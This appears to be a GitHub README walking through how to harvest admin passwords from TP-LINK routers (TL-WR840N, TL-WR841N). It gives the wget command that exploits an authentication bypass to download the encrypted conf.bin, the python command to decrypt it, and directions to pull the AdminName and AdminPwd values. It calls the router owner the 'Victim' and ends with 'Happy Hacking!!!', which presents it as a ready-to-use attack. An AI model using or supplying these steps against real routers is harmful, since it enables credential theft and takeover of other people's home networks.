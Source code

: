 # TP-LINK Routers Admin Account Password Harvesting Vulnerability.
This **Vulnerability** basically uses another [Vulnerability](https://www.exploit-db.com/exploits/44781) which is a **limited authentication bypass vulnerability** using which it downloads the configuration file of the Router.

This **configuration file(conf.bin)** is the **most sensitive piece of information** that a **Hacker** would love to have of its **Victim.**
But this configuration file is **Encrypted** by the Vendor (Essentially **TP-LINK**).

*Fortunately,* This configuration file can be **Decrypted.** 

To Exploit this Vulnerability just follow the following guidelines:-

# The Game Show

## Getting The File

First of all you need to download the configuration file using the **Wget** utility using the following command:-
> wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin

You can customize the headers by yourself also but just remember not to omit the **Referer** Header.

Now, As you got the configuration file, next step is to decrypt it.

## Decrypting the File
As to decrypt the file you will need the file given in this repository.
I got this Decrypting Script from another Github [Repository](https://github.com/sta-c0000/tpconf_bin_xml) 
**Thanks "sta-c0000"**

Use the following command to decrypt the conf.bin file:-
>python3 decrypt.py conf.bin conf.xml

You can change the last argument to change the filename as desired.
In this .xml file you will find all the configuration of the router.
To Quickly find the admin username and password,search admin within the file.
Then you will find the AdminName and AdminPwd tags.
And their values will be in the *val* variable.
Like This:-
>
      <AdminName val=Alexis />
      <AdminPwd val=$up3rS3cuRePA$$W0rd! />

**Note:**
You will not be able to open the .xml file in most .xml editors due to some header problems.
Simply Open the file using Nano,Vim,Notepad++,etc.
**Please Note that if you not find these tags in the .xml file then the Victim is using Default Credentials.**

**Which Are:-**
*user: admin*
*password: admin*

# Affected Devices
At this time it is not known that how many devices are Vulnerable To this technique.
But the devices which i tested on are:

- TL-WR840N
- TL-WR841N

**Some Other Routers of TP-LINK are also vulnerable of a similar kind of attack**

- WL-WA850RE

[Link To the Repository](https://gist.github.com/eacmen/)

Happy Hacking!!! 🤑
